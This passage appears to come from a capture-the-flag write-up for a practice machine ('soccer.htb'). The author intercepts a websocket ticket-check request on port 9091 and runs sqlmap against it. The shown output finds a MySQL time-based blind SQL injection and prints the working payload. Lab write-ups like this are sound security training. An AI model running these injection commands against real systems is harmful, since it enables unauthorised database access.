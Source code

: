 After creating the account and login in we get presented with a ticket and form that allows us to check whether our ticket is valid or not.

![ticket](7.png)

If we enter another number we get `Ticket doesn't exist`

I started burp and intercepted the request and got this:

![burp](8.png)

The website is making a request to a web socket on port 9091 with some json data.

### SQLinjection

Let's test for sql injection using `sqlmap`.

```terminal
[★]$ sqlmap -u ws://soc-player.soccer.htb:9091 --data '{"id":"12345"}' --batch
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.8.3#stable}
|_ -| . [,]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 20:25:37 /2024-12-24/

JSON data found in POST body. Do you want to process it? [Y/n/q] Y
[20:25:38] [INFO] testing connection to the target URL
[20:25:42] [INFO] checking if the target is protected by some kind of WAF/IPS
[20:25:43] [INFO] testing if the target URL content is stable
[...]
[20:27:03] [INFO] target URL appears to be UNION injectable with 3 columns
injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n] Y
[20:27:28] [WARNING] if UNION based SQL injection is not detected, please consider forcing the back-end DBMS (e.g. '--dbms=mysql') 
[20:27:28] [INFO] checking if the injection point on (custom) POST parameter 'JSON id' is a false positive
(custom) POST parameter 'JSON id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 96 HTTP(s) requests:
---
Parameter: JSON id ((custom) POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: {"id":"12345 AND (SELECT 6529 FROM (SELECT(SLEEP(5)))jDSa)"}
---
[20:27:50] [INFO] the back-end DBMS is MySQL
[20:27:50] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
back-end DBMS: MySQL >= 5.0.12
```

